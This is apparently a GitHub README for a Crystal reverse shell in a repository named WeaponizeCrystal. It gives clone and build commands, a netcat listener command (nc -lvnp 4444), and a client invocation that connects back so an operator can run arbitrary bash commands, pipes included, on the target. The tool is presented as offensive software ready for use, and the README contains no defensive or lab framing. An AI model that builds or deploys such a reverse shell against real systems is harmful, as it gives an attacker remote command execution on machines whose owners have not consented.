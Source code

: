 # reverse_shell

Simple reverse shell using `Sockets`, `Process` and `File`.

## Installation

```sh
git clone https://github.com/js-on.de/WeaponizeCrystal.git
cd WeaponizeCrystal/reverse_shell
shards install
# compile
crystal build --single-module src/reverse_shell.cr
```

## Usage
*./reverse_shell ip port*
```sh
# Listener:
nc -lvnp 4444

# Client:
./reverse_shell <listener ip> 4444
```

You can use any bash commands you want. The shell value of `Process.run` is `true`, so even pipes are working.

Internal bash commands are not yet implemented due to missing importance; except of `cd`.

Type `?, help` to view commands provided by this reverse shell.

## Development

See [Contributing](https://github.com/js-on/WeaponizeCrystal/tree/main/reverse_shell#Contributing)

## Contributing

1. Fork it (<https://github.com/js-on/WeaponizeCrystal/fork>)
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create a new Pull Request

## Contributors

- [js-on](https://github.com/js-on) - creator and maintainer

